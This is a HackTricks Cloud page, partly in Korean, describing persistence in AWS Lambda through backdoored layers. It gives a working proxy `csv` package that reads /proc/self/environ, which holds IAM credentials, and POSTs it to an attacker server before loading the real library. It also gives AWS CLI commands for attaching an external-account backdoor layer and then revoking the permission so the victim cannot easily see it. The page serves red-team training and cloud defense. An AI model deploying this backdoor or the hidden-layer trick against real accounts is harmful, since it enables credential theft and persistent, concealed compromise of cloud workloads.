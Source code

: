# AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambda 레이어는 **추가 코드를 포함할 수 있는** .zip 파일 아카이브입니다. 레이어는 라이브러리, [사용자 정의 런타임](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), 데이터 또는 구성 파일을 포함할 수 있습니다.

**함수당 최대 다섯 개의 레이어를 포함할 수 있습니다.** 함수를 포함할 때, **내용은 실행 환경의 `/opt`** 디렉토리에 추출됩니다.

**기본적으로**, 생성한 **레이어**는 **귀하의 AWS 계정에 비공개**입니다. 다른 계정과 레이어를 **공유**하거나 레이어를 **공개**할 수 있습니다. 귀하의 함수가 다른 계정에서 게시한 레이어를 사용하는 경우, 레이어가 삭제되거나 레이어에 대한 접근 권한이 취소된 후에도 **함수는 레이어 버전을 계속 사용할 수 있습니다**. 그러나 삭제된 레이어 버전을 사용하여 새 함수를 생성하거나 함수를 업데이트할 수는 없습니다.

컨테이너 이미지로 배포된 함수는 레이어를 사용하지 않습니다. 대신, 이미지를 빌드할 때 선호하는 런타임, 라이브러리 및 기타 종속성을 컨테이너 이미지에 패키징합니다.

### Python load path

Lambda에서 Python이 사용할 로드 경로는 다음과 같습니다:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Check how the **second** and third **positions** are occupy by directories where **lambda layers** uncompress their files: **`/opt/python/lib/python3.9/site-packages`** and **`/opt/python`**

{% hint style="danger" %}
If an attacker managed to **backdoor** a used lambda **layer** or **add one** that will be **executing arbitrary code when a common library is loaded**, he will be able to execute malicious code with each lambda invocation.
{% endhint %}

따라서 요구 사항은 다음과 같습니다:

* **피해자의 코드**에 의해 **로드되는 라이브러리** 확인
* **커스텀 코드를 실행하고** **원본** 라이브러리를 **로드하는 lambda layers**로 **프록시 라이브러리** 생성

### Preloaded libraries

{% hint style="warning" %}
When abusing this technique I found a difficulty: Some libraries are **already loaded** in python runtime when your code gets executed. I was expecting to find things like `os` or `sys`, but **even `json` library was loaded**.\
In order to abuse this persistence technique, the code needs to **load a new library that isn't loaded** when the code gets executed.
{% endhint %}

With a python code like this one it's possible to obtain the **list of libraries that are pre loaded** inside python runtime in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
그리고 이것은 **목록**입니다 (라이브러리 `os` 또는 `json`이 이미 있는지 확인하십시오)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
그리고 이것은 **람다에 기본적으로 설치된 라이브러리** 목록입니다: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

이 예제에서는 타겟 코드가 **`csv`**를 임포트한다고 가정해 보겠습니다. 우리는 **`csv` 라이브러리의 임포트를 백도어**할 것입니다.

이를 위해, 우리는 **`/opt/python/lib/python3.9/site-packages`** 경로에 **`__init__.py`** 파일이 있는 **csv** 디렉토리를 **생성**할 것입니다.\
그런 다음, 람다가 실행되고 **csv**를 로드하려고 할 때, 우리의 **`__init__.py` 파일이 로드되고 실행될 것입니다**.\
이 파일은 다음을 수행해야 합니다:

* 우리의 페이로드를 실행합니다
* 원래의 csv 라이브러리를 로드합니다

우리는 다음을 통해 두 가지를 모두 수행할 수 있습니다:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
그런 다음, 이 코드를 **`python/lib/python3.9/site-packages/__init__.py`** 경로에 넣고 zip 파일을 생성한 후, 이를 lambda layer로 추가합니다.

이 코드는 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)에서 찾을 수 있습니다.

통합된 페이로드는 **첫 번째 호출 시 또는 lambda 컨테이너가 리셋된 후 IAM 자격 증명을 서버로 전송합니다** (코드 변경 또는 콜드 람다), 그러나 **다음과 같은 다른 기술**도 통합될 수 있습니다:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 외부 레이어

**외부 계정의 lambda layers를 사용할 수 있다는 점에 유의하십시오.** 또한, lambda는 권한이 없더라도 외부 계정의 레이어를 사용할 수 있습니다.\
또한 **lambda가 가질 수 있는 최대 레이어 수는 5개**입니다.

따라서 이 기술의 다재다능성을 향상시키기 위해 공격자는 다음과 같은 방법을 사용할 수 있습니다:

* 사용자의 기존 레이어에 백도어를 설치합니다 (외부는 없습니다)
* **자신의 계정에** **레이어**를 **생성**하고, **희생자 계정에 레이어 사용 권한을 부여**하고, **희생자의 Lambda에 레이어를 구성**한 후 **권한을 제거**합니다.
* **Lambda**는 여전히 **레이어를 사용할 수 있으며** **희생자는** **레이어 코드를 다운로드할 수 있는 쉬운 방법이 없습니다** (람다 내부에서 rev shell을 얻는 것을 제외하고)
* 희생자는 **`aws lambda list-layers`**를 사용하여 **외부 레이어를 볼 수 없습니다**.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
